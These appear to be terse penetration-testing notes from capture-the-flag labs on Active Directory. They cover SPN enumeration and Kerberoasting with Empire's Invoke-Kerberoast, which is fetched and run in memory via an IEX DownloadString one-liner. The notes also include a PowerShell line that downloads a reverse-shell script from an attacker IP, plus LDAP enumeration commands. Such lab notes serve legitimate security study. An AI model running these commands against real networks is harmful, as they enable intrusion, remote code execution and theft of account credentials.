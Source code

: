 # AD services
```text-plain
setspn -T medin -Q ​ */* 
```

we can extract all accounts in the SPN.

SPN is the Service Principal Name, and is the mapping between service and account.

Lets first get the Powershell Invoke-Kerberoast script.

```text-plain
iex​(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1') 

powershell IEX(New-Object Net.webclient).downloadString(\"http://10.8.165.116/Invoke-PowerShellTcp.ps1\")
```

Now lets load this into memory: 

```text-plain
Invoke-Kerberoast -OutputFormat hashcat ​ |fl
```

You should get a SPN ticket.

```text-plain
ldapsearch -x -b "dc=windcorp,dc=thm" -H ldap://10.10.2.199
ldapsearch -H ldap://10.10.172.129 -x -b 'DC=COOCTUS,DC=CORP' -D 'COOCTUS\Visitor' -W
```